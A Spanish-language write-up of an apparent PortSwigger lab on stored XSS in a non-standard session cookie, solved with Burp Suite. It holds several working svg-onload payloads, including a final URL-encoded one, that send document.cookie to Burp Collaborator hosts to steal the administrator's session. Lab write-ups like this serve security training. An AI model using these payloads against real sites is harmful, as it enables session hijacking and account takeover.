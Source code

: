 ### LAB: Scanning non-standard data structures

Ya analizando los endpoints puedo ver algo extraño…

![[Pasted image 20250220170418.png]]

La cookie de session se maneja de una manera un tanto extraña, no es una estructura de datos estandar se maneja del tipo `session=username%3acookieValue`

Selecciono el user wiener de la cookie y le hago un `Scan Selected Insertion Point`

![[Pasted image 20250220170439.png]]

El escaneo reporta un cross site scripting stored.

Tengo que tirar un ataque por este medio de esa forma que me permita robar la cookie de sessión del administrador user.

```xml
Payload del reporte: 
'"><svg/onload=fetch`//kc0rq739xrt1ig4i2whcptul3c9dx3lvbj29pzdo\\.oastify.com`>
'"><svg/onload=fetch`//85bj426yutnalb6lkg3rvn6ik9q0ey2n\\.oastify.com/?leaked='+document.cookie;`>
'%22%3E%3Csvg%2Fonload%3Dfetch%60%2F%2F85bj426yutnalb6lkg3rvn6ik9q0ey2n%5C.oastify.com%2F%3Fleaked%3D%22%2Bdocument.cookie%3B%60%3E
```

```xml
'"><svg/onload=fetch`//85bj426yutnalb6lkg3rvn6ik9q0ey2n\\.oastify.com\\'+document.cookie);`>
'"><svg/onload=fetch`//85bj426yutnalb6lkg3rvn6ik9q0ey2n\\.oastify.com/'+document.cookie);`>
```

---

```xml
(')"><svg/onload=fetch`//6biha0cw0rt8r9cjqe9p1lcgq7wyk08p\\.oastify.com\\?c='+document.cookie;`>

(')"><svg/onload=fetch`//gp9n33g5an6xvchefsu82p7hg8mda3yvojf92zqo\\.oastify.com`>
```

#### Tan simple como preguntarle a mi buen amigo chatgpt como se concatena la document.cookie a una etiqueta svg 🙂

![[Pasted image 20250220170512.png]]

Mi carga util o payload final fue este:

```js
//Todo codeado a url excepto el ' que está dentro de parentesis (sin parentesis claro)
(')"><svg/onload=fetch(`//rhc2glih6cztxui4wzfa76i1ws2jqnec\.oastify.com?c=${document.cookie}`)>
-------------------Payload final encoded---------------------
'%22%3E%3Csvg%2Fonload%3Dfetch%28%60%2F%2Frhc2glih6cztxui4wzfa76i1ws2jqnec%5C.oastify.com%3Fc%3D%24%7Bdocument.cookie%7D%60%29%3E
```

![[Pasted image 20250220170606.png]]

Lo enviamos y es cuestión de analizar las respuesta de burp collaborator →
